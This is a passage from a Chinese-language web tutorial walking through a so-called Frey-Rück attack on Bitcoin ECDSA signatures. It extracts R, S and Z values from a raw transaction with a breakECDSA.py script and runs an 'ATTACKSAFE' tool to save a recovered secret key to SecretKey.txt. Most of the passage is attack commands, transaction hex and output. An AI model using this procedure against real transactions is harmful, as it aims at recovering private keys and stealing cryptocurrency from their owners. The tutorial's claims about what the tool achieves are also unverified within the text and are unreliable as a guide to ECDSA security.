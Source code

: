 

<h2>現在我們需要從所有易受攻擊的交易中獲取所有的 R、S、Z 值</h2>



<p>讓我們使用 breakECDSA.py 腳本</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 01000000011c2b74d4b3ccdd96201841bce8931efa4b40c0dcd11ce52bafe3167bc5c7f741120000006b483045022003af10d2cd5db13bacedc903c00a76d93d1e1749fff30d030bdf13ead615e644022100a66c5b518e61b1dd3b9e27068bcd5286d32690023fa69b845972e4b09800ac8a012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000
</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-47-1024x243.png" alt="實施 Frey-Rück 攻擊以獲得密鑰“K”（NONCE）" class="wp-image-975"/></figure>



<pre class="wp-block-code"><code>R = 0x03af10d2cd5db13bacedc903c00a76d93d1e1749fff30d030bdf13ead615e644
S = 0xa66c5b518e61b1dd3b9e27068bcd5286d32690023fa69b845972e4b09800ac8a
Z = 0xb6d536f025718d424e97ea40e0a86eb32f3f7d3673c4d0decb1a71466235d4de</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>要從易受攻擊的 ECDSA 簽名交易中獲取密鑰，讓我們將數據添加<code>RawTX</code>到文本文檔並將其保存為文件<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>01000000011c2b74d4b3ccdd96201841bce8931efa4b40c0dcd11ce52bafe3167bc5c7f741120000006b483045022003af10d2cd5db13bacedc903c00a76d93d1e1749fff30d030bdf13ead615e644022100a66c5b518e61b1dd3b9e27068bcd5286d32690023fa69b845972e4b09800ac8a012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><code>-tool frey_ruck_attack</code>使用軟件啟動<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>./attacksafe -tool frey_ruck_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-49-1024x318.png" alt="實施 Frey-Rück 攻擊以獲得密鑰“K”（NONCE）" class="wp-image-980"/></figure>



<p>我們發起了這次攻擊<code>-tool frey_ruck_attack</code>並將結果保存到一個文件中<code>SecretKey.txt</code></p>



<p>現在看到成功的結果，打開文件<code>SecretKey.txt</code></p>
